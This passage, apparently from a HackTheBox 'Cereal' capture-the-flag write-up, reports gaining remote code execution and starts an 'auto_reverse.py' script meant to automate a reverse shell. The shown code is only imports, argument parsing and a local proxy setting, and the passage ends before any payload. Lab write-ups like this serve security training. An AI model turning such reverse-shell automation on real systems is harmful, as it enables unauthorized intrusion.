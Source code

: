 And we have RCE!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2009:03:29.png)

Now let's get a reverse shell

Now, let's automate it

# Auto Shell

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2009:54:24.png)

auto_reverse.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Cereal - Auto reverse shell

import argparse
import requests
import sys
import jwt
from datetime import datetime, timedelta
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import os
import re
import urllib3

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
```